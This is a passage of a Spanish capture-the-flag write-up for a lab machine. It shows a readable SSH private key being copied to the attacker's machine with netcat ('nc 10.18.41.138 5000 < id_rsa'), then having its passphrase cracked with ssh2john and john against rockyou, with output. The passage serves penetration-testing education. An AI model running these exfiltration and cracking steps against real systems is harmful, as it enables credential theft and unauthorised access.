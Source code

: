 ~~~shell
-rw-r--r-- 1 kay  kay     0 Apr 17  2018 .sudo_as_admin_successful
-rw------- 1 root kay   538 Apr 23  2018 .viminfo
-rw------- 1 kay  kay    57 Apr 23  2018 pass.bak
~~~

## Llave privada SSH

~~~shell
cd .ssh
ls -al
total 20
drwxr-xr-x 2 kay kay 4096 Apr 23  2018 .
drwxr-xr-x 5 kay kay 4096 Apr 23  2018 ..
-rw-rw-r-- 1 kay kay  771 Apr 23  2018 authorized_keys
-rw-r--r-- 1 kay kay 3326 Apr 19  2018 id_rsa
-rw-r--r-- 1 kay kay  771 Apr 19  2018 id_rsa.pub
~~~

La llave pirvada es cifrada con un *passphrase* que tenemos crackear. Pasamos la llave privada a la máquina del atacante:
~~~shell
uqnar@un:~$ nc -nlvp 5000 > id_rsa
~~~
~~~shell
jan@basic2:/home/kay$ nc 10.18.41.138 5000  < id_rsa
~~~

### `ssh2john` de JohnTheRipper

`ssh2john`  es una herramienta incluida en la suite "John the Ripper" que se utiliza para convertir archivos de configuración y registros de sesiones del protocolo SSH (Secure Shell) en un formato compatible con "john". Su función principal es extraer los hashes de contraseñas cifradas de archivos o registros de SSH y convertirlos en un formato que pueda ser utilizado por `john` para realizar ataques de fuerza bruta o diccionario contra estas contraseñas cifradas.

Obtenemos el hash para JohnTheRipper de la siguiente manera
~~~shell
uqnar@un:~/tmp$ ssh2john id_rsa > id_rsa.john
~~~

### `john` de JohnTheRipper

`john` es una poderosa herramienta de cracking de contraseñas de la suite "John the Ripper" que admite múltiples algoritmos de cifrado y técnicas de ataque para descifrar contraseñas. Puede utilizar métodos de fuerza bruta, diccionario, ataque por tabla arcoíris y otros métodos avanzados para probar diferentes combinaciones de contraseñas y descubrir las contraseñas originales. "john" se utiliza ampliamente en auditorías de seguridad y pruebas de penetración para evaluar la fortaleza de las contraseñas y la seguridad de los sistemas.

~~~shell
$ sudo john -w:/usr/share/wordlists/rockyou.txt ./id_rsa.john 
~~~
~~~plaintext
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
beeswax          (id_rsa)     
1g 0:00:00:00 DONE (2023-07-07 22:52) 1.388g/s 114911p/s 114911c/s 114911C/s behlat..bball40
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
~~~


[^1]: Is the username in Unix case sensitive? (2023, July 13). Recuperado de <https://unix.stackexchange.com/questions/235049/is-the-username-in-unix-case-sensitive/235086#235086>
[^2]: SMB port number: Ports 445, 139, 138, and 137 explained. (2023, July 13). Recuperado de <https://4sysops.com/archives/smb-port-number-ports-445-139-138-and-137-explained>
[^3]: CAPEC - CAPEC-112: Brute Force (Version 3.9). (2023, July 13). Recuperado de <https://capec.mitre.org/data/definitions/112.html>
[^4]: CAPEC - CAPEC-49: Password Brute Forcing (Version 3.9). (2023, July 13). Retrieved from <https://capec.mitre.org/data/definitions/49.html>
[^5]: CAPEC - CAPEC-16: Dictionary-based Password Attack (Version 3.9). (2023, July 13). Retrieved from https://capec.mitre.org/data/definitions/16.html